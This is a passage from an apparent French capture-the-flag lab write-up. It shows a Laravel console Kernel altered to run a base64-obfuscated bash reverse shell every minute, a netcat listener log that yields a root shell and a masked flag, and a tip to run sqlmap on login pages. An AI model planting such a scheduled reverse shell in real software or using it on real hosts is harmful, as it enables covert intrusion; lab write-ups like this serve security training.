 ```bash
    protected $commands = [
        //
    ];

    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjUvOTAwMiAwPiYx | base64 -d | bash')->everyMinute();
        // $schedule->command('inspire')
        //          ->hourly();
    }

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```
Au bout d'une minute, on reçoit bien un shell en tant que root.
```bash
## nc -lnvp 9002                        
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9002
Ncat: Listening on 0.0.0.0:9002
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:38926.
sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt	
3c1c.....64e8
```

## Tips
- Toujours faire un **sqlmap** sur une page de login si on ne trouve rien ! Tester un "' or 1=1; --" n'est pas suffisant. Il y a bcp de sql injection que l'on peut decouvrir avec SQLMAP...